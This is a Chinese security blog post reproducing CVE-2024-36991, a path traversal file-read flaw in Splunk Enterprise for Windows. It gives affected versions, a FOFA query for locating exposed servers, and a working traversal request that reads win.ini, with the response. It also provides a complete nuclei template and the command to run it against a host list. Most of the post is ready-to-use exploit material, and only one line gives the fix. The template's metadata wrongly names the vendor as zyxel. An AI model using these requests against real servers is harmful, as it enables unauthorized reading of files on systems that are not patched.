 #  CVE-2024-36991 漏洞复现 POC   
原创 fgz  AI与网安   2024-07-06 11:29  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Splunk Enterprise for Windows 任意文件读取漏洞  
  
  
  
02  
  
—  
  
影响范围  
  
  
影响范围  
  
9.2.0 <= Splunk Enterprise < 9.2.2  
  
9.1.0 <= Splunk Enterprise < 9.1.5  
  
9.0.0 <= Splunk Enterprise < 9.0.10  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPMqUib3jyiat75KvlBk317fMxuiceGnXUgy9icS9TMsFTPJzCl5DUyicDHZ4DLLcVZfm6w5AicVH50xQMw/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。  
2024年7月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows平台 modules/messaging 目录遍历漏洞。  
漏洞仅影响 Windows平台上的 Splunk Enterprise，官方已发布安全更新，建议升级至最新版本。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
app="splunk-Enterprise"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPMqUib3jyiat75KvlBk317fMPgbE6yOlsHYUIib1uLBXRvDDh2lgxGHtiaL4PMAfEKSTraPUJzqLwtuQ/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包读取  
/windows/win.ini文件  
```
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS x86_64 14541.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
```  
  
响应内容如下  
```
HTTP/1.1 200 OK
Connection: close
Accept-Ranges: bytes
Content-Type: text/html
Date: Sat, 06 Jul 2024 03:23:04 GMT
Last-Modified: Sat, 07 Dec 2019 09:12:42 GMT
Server: Splunkd
Set-Cookie: session_id_8000=e1e84e42c833f84a35dd06aa1b4409c4f3805ee3; expires=Sat, 06 Jul 2024 04:23:04 GMT; HttpOnly; Max-Age=3600; Path=/
Vary: Accept-Encoding, Cookie
X-Content-Type-Options: nosniff

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-36991

info:
  name: Splunk Enterprise for Windows 任意文件读取漏洞
  author: fgz
  severity: high
  description: |
    Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。2024年7月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows平台 modules/messaging 目录遍历漏洞。漏洞仅影响 Windows平台上的 Splunk Enterprise，官方已发布安全更新，建议升级至最新版本。
  reference:
    - https://advisory.splunk.com/advisories/SVD-2024-0711
    - https://research.splunk.com/application/e7c2b064-524e-4d65-8002-efce808567aa
  classification:
    cvss-score: 7.1
    cve-id: CVE-2024-36991
  metadata:
    verified: true
    max-request: 1
    vendor: zyxel
    product: Splunk Enterprise
    fofa-query: app="splunk-Enterprise"
  tags: cve,cve2024,splunk-Enterpris

http:
  - raw:
      - |
        GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200"
          - "contains(body, '; for 16-bit app support')"
        condition: and

```  
  
运行POC  
```
nuclei.exe  -t CVE-2024-36991.yaml -l 1.txt 
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPMqUib3jyiat75KvlBk317fM65EmkF4AsSRSaQGsgibibjBKhGicYeP2vh49LGvicMSWTSX9TIbcnjthuA/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到安全版本或者关闭外部攻击面。  
  
  
  
